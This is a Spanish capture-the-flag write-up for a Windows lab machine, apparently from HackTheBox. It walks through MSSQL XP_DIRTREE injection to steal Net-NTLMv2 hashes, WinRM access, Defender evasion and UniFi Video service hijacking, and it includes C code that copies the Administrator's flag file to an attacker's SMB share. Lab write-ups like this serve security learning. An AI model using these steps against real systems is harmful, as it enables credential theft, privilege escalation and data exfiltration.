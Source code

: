 ## Tecnicas utilizadas
- SQL Injection (XP_DIRTREE) [SQLI] - Get Net-NTLMv2 Hash  
- Windows Defender Evasion (Ebowla)  
- Windows Defender Evasion (Building our own C program)  
- Service Listing Techniques  
- Abusing Unifi-Video (Privilege Escalation)
## Procedimiento
- Fuzzing
- MSSQL injection, apoyandonos del material de StackOverflow[https://stackoverflow.com/questions/26750054/xp-dirtree-in-sql-server] para ejecutar la funciona XP_DirTree y cargar un archivo a nivel de sistema de mi maquina compartido por SMB. Al hacerlo, recibimos un hash Net-NTLMv2 que podemos romper por fuerza bruta de manera offline con **John The Ripper**
- Al romper la contraseña, intentamos conectarnos al servicio de WinRM con la herramienta **Evil-WinRM**, si el usuario al cual acabamos de robar su contraseña esta dentro del grupo *Remote Management Users* podremos entrar sin problema.
- En la carpeta *Documents* del usuario actual, encontramos un binario que corresponde a un programo instalado a nivel de sistema; *Unifi Video*. Si buscamos por este en SearchSploit podemos ver que existe una forma de escalar privilegios.
- Para escalar privilegios tenemos que seguir los siguientes pasos
	1. Crear un binario malicioso que se llame *Taskkill.exe*. Esto, por que en el archivo encontrado en SE explica que cuando se inicia y se detiene el servicio, trata de correr un archivo con dicho nombre que se encuentra en la carpeta por defecto de *UniFi video*.
	2. Intentando ejecutar el binario, nos percatamos que el Windows defender lo desactiva, asi que descartamos esta posibilidad.
- Utilizamos mingw-w64. Creamos un script en C de la siguiente manera 
```c++
#include <stdlib.h>

int main(){
	system("type C:\\Users\\Administrator\\Desktop\\root.txt > \\\\<ip-host>\\smbFolder\\root.txt");
}
```
- Compilamos el script de la siguiente manera ``x86_64-w64-mingw32-gcc $script -o taskkill.exe`` 
- Compartimos el binario a la maquina victima, y solo tendriamos que parar y arrancar el servicio para que este se ejecute.
- Tenemos muchas formas de listar servicios, pero utilizaremos la de HKLM con el articulo que nos ofrece Microsoft. ``cd HKLM:\SYSTEM\CurrentControlSet\Service``
- Una vez tenemos el nombre del servicio, lo detenemos de la siguiente manera ``cmd /c sc stop <service-name>``